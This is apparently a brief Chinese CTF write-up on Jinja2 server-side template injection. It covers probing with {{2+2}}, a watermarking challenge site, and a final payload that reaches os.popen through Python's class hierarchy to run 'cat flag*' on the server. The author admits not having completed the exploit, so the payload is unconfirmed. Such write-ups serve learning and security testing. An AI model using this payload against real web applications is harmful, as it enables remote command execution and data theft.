 # 关于jinja2
jinja2是一个类似php smart引擎的视图模板，可以将内容动态的插入到html中去详细可以看一下[Jinja2 模板的学习](https://www.jianshu.com/p/8fc66b083ecd)

# 关于jinja2模板注入
这是一种代码注入，常见的测试手法是在可以回显的地方插入`{{2+2}}`如果返回了4就说明可能存在jinja模板注入，这种代码注入类似xss，但是注入的代码是执行在服务器端的。

# ctf
**地址： ** http://106.75.72.168:8888

## 解题思路

> 题目简介：这是一个可以给你的图片打赏你名字的水印的网站。先注册，登录，然后有一个donne操做就是将你上传的图片url转换成带有你的名字的水印的图片。这样回显的条件就满足了，然后当你上传二的是一个错误的不是指向图片的url时，就会出现大量报错，其中就包含了后台使用的是jinja模板；

**思路： ** 上传暗色背景的图片，尝试注册{{100+100}}测试回显
![title](https://i.loli.net/2019/04/27/5cc3acab03ba0.png)

可以看到成功了，然后利用jinja可以访问python的内部方法和内置变量

所以最后的payload，说是这么说但是在做还不会
```
aa{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].__dict__['popen']('cat flag*').read()}}
```